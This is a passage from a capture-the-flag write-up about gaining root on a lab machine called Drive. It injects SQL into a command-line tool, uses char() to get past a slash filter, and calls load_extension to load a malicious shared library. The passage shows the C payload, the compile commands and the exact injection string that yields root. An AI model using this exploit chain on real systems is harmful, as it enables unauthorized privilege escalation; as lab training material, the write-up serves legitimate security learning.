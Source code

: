 #### Filter Bypass

For this to work, I need to use the `/` character, which is banned. I don’t
have a good way to reference my shared library without it. However,
`load_extension` takes a string. In the above example I hardcode it, but
there’s no reason that string can’t be the output of a function. For example,
`char` ([docs](https://www.sqlite.org/lang_corefunc.html#char)). “./poc” as a
list of ints is 46, 47, 112, 111, 99. So I can do:

    
    
    oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension(char(46,47,112,111,99));-- -aaaaasdasda';
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    1|
    

#### Exploitation POC

Putting that all together, I’ll generate a SO to run on Drive:

    
    
    #include <stdlib.h>
    void sqlite3_extension_init() {
        system("/bin/id");
    }
    

It’s important to give the full path, as the binary drops the `PATH` variable.
I’ll compile it:

    
    
    tom@drive:/dev/shm$ gcc -shared poc.c -o p.so -fPIC
    tom@drive:/dev/shm$ file p.so 
    poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=703f07b9524db0445fbabc08c598856232039ce2, not stripped
    

I have to make this short. The input user name is limited to 0x28 = 40
characters:

    
    
      printf("Enter username to activate account: ");
      fgets(username_input,0x28,(FILE *)stdin);
    

To do `"+load_extension(char(46,47,112,111,99));-- -` is 45 characters. If I
name my extension `p.so`, I’ll work fine as
`"+load_extension(char(46,47,112));-- -` at 38 characters.

Now from `/dev/shm` (so that `./p.so` works), I’ll run `doodleGrive-cli`.
After authenticating, I’ll select 5 and give the injection:

    
    
    Select option: 5
    Enter username to activate account: "+load_extension(char(46,47,112));-- -
    Activating account for user '"+load_extension(char(46,47,112))---'...
    uid=0(root) gid=0(root) groups=0(root),1003(tom)
    
